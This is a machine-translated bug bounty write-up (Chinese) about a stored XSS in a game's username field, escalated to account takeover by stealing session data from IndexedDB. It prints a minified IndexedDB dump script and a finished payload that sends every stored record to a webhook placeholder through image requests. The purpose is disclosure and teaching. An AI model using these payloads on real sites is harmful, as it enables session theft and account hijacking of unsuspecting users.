








# 存储的 XSS 到帐户接管:超越 document.cookie |从 IndexedDB 窃取会话数据

> 原文：<https://infosecwriteups.com/stored-xss-to-account-takeover-going-beyond-document-cookie-970e42362f43?source=collection_archive---------0----------------------->



**简介**

H 我是赛义德·穆希菲克·哈桑·塔辛，又名 [SMHTahsin33](https://twitter.com/SMHTahsin33) ，来自孟加拉国的 18 岁网络安全爱好者。我对信息安全感兴趣是因为好奇，并且我在空闲时间做 bug 奖金。在这个部门工作了大约两年半。

**进入目标**

让我们深入主要的 web 应用程序。我们的目标是一款类似社交网络应用的游戏，它提供类似虚拟现实的功能，可以在特定的世界/空间中漫游并与其他人一起游戏。一个空间一次可以容纳 15 个用户。

**主要问题**

用户名容易受到存储的 XSS 的攻击，并且没有任何字符限制。当用户在空间 A 中添加任何资产(如图像、视频)时，屏幕顶部会弹出一个通知，提示说:“用户 A 刚刚向该空间添加了一个视频。你看看！”。名称的反射是易受攻击的反射点，当添加任何资产时，由于通知的出现，名称中的脚本会被执行。



**混乱**

我的第一个基本有效负载是  ，它是反射的，但没有被执行，因为输入被添加到 **innerHtml** 中，通过 javascript 动态添加。但是只使用就可以弹出一个窗口。但是…



如您所见，这些是弹出的 cookies，我可以肯定地说这些不是用于会话识别目的的东西。

**调查** 
那么 Web 应用程序是如何识别哪个用户登录的呢？那么让我们来讨论会话信息通常存储在哪里？

最常见的答案是在饼干里。但是没有，正如你所看到的，他们没有使用 cookies 来保存用户会话。另一个常用的存储是浏览器的本地存储，可以通过 **window.localStorage** 和 **JSON.stringify** 轻松访问:



但是在我的目标中，他们也没有使用本地存储，而是使用 [**IndexedDB**](https://developer.mozilla.org/en-US/docs/Web/API/IndexedDB_API) 来保存用户的会话信息。让我们先来了解一下 IndexedDB 然后:

> **IndexedDB** 是一个低级 API，用于客户端存储大量结构化数据，包括文件/blob。这个 API 使用索引来实现对这些数据的高性能搜索。虽然[网络存储](https://developer.mozilla.org/en-US/docs/Web/API/Web_Storage_API)对于存储少量数据很有用，但是对于存储大量结构化数据就没那么有用了。 **IndexedDB** 提供了解决方案。
> **IndexedDB** 是内置在浏览器中的数据库，比`**localStorage**`强大得多。
> 
> 通过键、多种键类型存储几乎任何类型的值。
> 
> 支持可靠性事务。
> 
> 支持关键字范围查询和索引。
> 
> 可以存储比`**localStorage**`大得多的数据量。

**有效载荷制作**

所以当我确认他们使用了浏览器的**【应用】**标签中的 **IndexedDB** 。



我不得不阅读文档来更多地了解它，在尝试了很多之后，我无法使用 JS 转储任何数据(这是当你没有足够的开发经验时会发生的事情)。

然后花更多的时间寻找从索引中转储数据的方法，我偶然发现了 OWASP 的这个网页:

[](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/11-Client-side_Testing/12-Testing_Browser_Storage) [## WSTG-4.2 版

### WSTG-OWASP 基金会主网站上的 4.2 版。OWASP 是一个非营利基金会，致力于改善…

owasp.org](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/11-Client-side_Testing/12-Testing_Browser_Storage) 

这里他们提供了所有测试浏览器存储的方法，我在**WSTG 4.2 版**中找到了这段代码

打印**索引的所有内容 DB:**

```
const dumpIndexedDB = dbName => {
  const DB_VERSION = 1;
  const req = indexedDB.open(dbName, DB_VERSION);
  req.onsuccess = function() {
    const db = req.result;
    const objectStoreNames = db.objectStoreNames || []; console.log(`[*] Database: ${dbName}`); Array.from(objectStoreNames).forEach(storeName => {
      const txn = db.transaction(storeName, 'readonly');
      const objectStore = txn.objectStore(storeName); console.log(`\t[+] ObjectStore: ${storeName}`); // Print all entries in objectStore with name `storeName`
      objectStore.getAll().onsuccess = event => {
        const items = event.target.result || [];
        items.forEach(item => console.log(`\t\t[-] `, item));
      };
    });
  };
};indexedDB.databases().then(dbs => dbs.forEach(db => dumpIndexedDB(db.name)));
```

当我把它粘贴到控制台上时，令我惊讶的是它居然成功了:)



但是我必须把它注入到错误事件处理程序中，这个太大了，而且有空格，看起来很乱。然后我使用 [**JS Minifier**](https://www.toptal.com/developers/javascript-minifier) 将代码缩减成这样，并使空格不成问题，我将整个代码修改成一个函数:

```
(function(){const dumpIndexedDB=a=>{let b=indexedDB.open(a,1);b.onsuccess=function(){let c=b.result,d=c.objectStoreNames||[];console.log(`[*] Database: ${a}`),Array.from(d).forEach(a=>{let b=c.transaction(a,"readonly"),d=b.objectStore(a);console.log(`	[+] ObjectStore: ${a}`),d.getAll().onsuccess=a=>{let b=a.target.result||[];b.forEach(a=>console.log("\\t\\t[-] ",a))}})}};indexedDB.databases().then(a=>a.forEach(a=>dumpIndexedDB(a.name)))})()
```

**数据泄露**

这样做很好，剩下的事情就是将转储的数据过滤到我自己的服务器上。为此，有效载荷需要更多的修改，正如我之前所说的，我之前没有任何 JS 经验，我最终 ping 了 [**Rayhan Ahmed**](https://twitter.com/Rayhan0x01) 兄弟，多亏了他，他为我修改了有效载荷，这对于数据渗透来说是完美的:

```
indexedDB.databases().then((e=>e.forEach((e=>(e=>{let o=indexedDB.open(e,1);o.onsuccess=function(){let t=o.result,n=t.objectStoreNames||[];(new Image).src='WEB_HOOK?exfil=database:'+encodeURIComponent(e),Array.from(n).forEach((e=>{let o=t.transaction(e,'readonly').objectStore(e);console.log(`[+] ObjectStore:${e}`),o.getAll().onsuccess=e=>{(e.target.result||[]).forEach((e=>{(new Image).src="WEB_HOOK?exfil=table:'+JSON.stringify(e)}))}}))}})(e.name)))));
```

我只是用我的 **Webhook URL** 替换了 **WEB_HOOK** ，并再次注入了有效载荷。最终有效载荷:

```
e.forEach((e=>(e=>{let o=indexedDB.open(e,1);o.onsuccess=function(){let t=o.result,n=t.objectStoreNames||[];(new Image).src='WEB_HOOK?exfil=database:'+encodeURIComponent(e),Array.from(n).forEach((e=>{let o=t.transaction(e,'readonly').objectStore(e);console.log(`[+] ObjectStore:${e}`),o.getAll().onsuccess=e=>{(e.target.result||[]).forEach((e=>{(new Image).src='WEB_HOOK?exfil=table:'+JSON.stringify(e)}))}}))}})(e.name)))))})()">
```

当我再次复制这些步骤时，通知在每个用户的浏览器中弹出，有效负载被执行，导致他们的会话被记录到我的 **Webhook** 。您还可以使用任何其他**带外服务**，包括您的 **VPS** 进行数据渗透:



成功窃取了受害者的会话，然后我所要做的就是复制并粘贴它，使用[**IndexedDbEdit**](https://chrome.google.com/webstore/detail/indexeddbedit/npjecebdjnmlolggnoajngnlodhgpfac?hl=en-GB)**chrome 扩展替换我自己的会话信息:**

****

**点击保存图标后，浏览器重新加载，我成功地进入了受害者的仪表板**

**感谢阅读。希望你喜欢看这篇文章，不要忘记分享！**

**再见！**

**来自 Infosec 的报道:Infosec 上每天都有很多内容，很难跟上。 [***加入我们的每周简讯***](https://weekly.infosecwriteups.com/) *以 5 篇文章、4 个线程、3 个视频、2 个 Github Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！***